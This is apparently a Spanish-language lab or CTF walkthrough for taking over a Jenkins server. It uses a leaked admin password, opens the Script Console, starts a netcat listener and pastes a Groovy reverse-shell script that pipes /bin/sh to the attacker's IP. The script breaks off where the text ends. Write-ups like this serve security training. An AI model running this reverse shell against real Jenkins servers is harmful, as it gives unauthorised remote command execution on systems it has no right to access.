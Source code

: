 ![[Pasted image 20250815114816.png]]

Se encuentra la contraseña del usuario `admin`.

Se inicia sesión en el panel de inicio de sesión con el usuario y contraseña encontrados anteriormente.

![[Pasted image 20250815114938.png]]

Se accede a una consola de scripts en la ruta: `Manage Jenkins/Tools and Actions/Script Console`.

![[Pasted image 20250815120307.png]]

Nos ponemos en escucha por el puerto 1235.

`nc -nlvp 1235`

Se ejecuta el siguiente script:

```Java
import java.net.Socket

def ip = "IP"           // Cambia aquí por la IP de tu máquina local
def port = 1235         // Puerto donde estás escuchando

try {
    Socket socket = new Socket(ip, port)

    // Cambia a ["cmd.exe"] si usas Windows
    def cmd = ["/bin/sh"]

    def process = cmd.execute()

    def processInput = process.inputStream
    def processError = process.errorStream
    def processOutput = process.outputStream

    def socketInput = socket.inputStream
    def socketOutput = socket.outputStream

    // Enviar salida estándar del proceso al socket
    Thread.start {
        try {
            int b
            while ((b = processInput.read()) != -1) {
                socketOutput.write(b)
                socketOutput.flush()
            }
        } catch (IOException ignored) {}
    }

    // Enviar salida de error del proceso al socket
    Thread.start {
        try {
            int b
            while ((b = processError.read()) != -1) {
                socketOutput.write(b)
                socketOutput.flush()
            }
        } catch (IOException ignored) {}
    }

    // Leer del socket y enviar a la entrada estándar del proceso
    int b
    while ((b = socketInput.read()) != -1) {
        processOutput.write(b)
```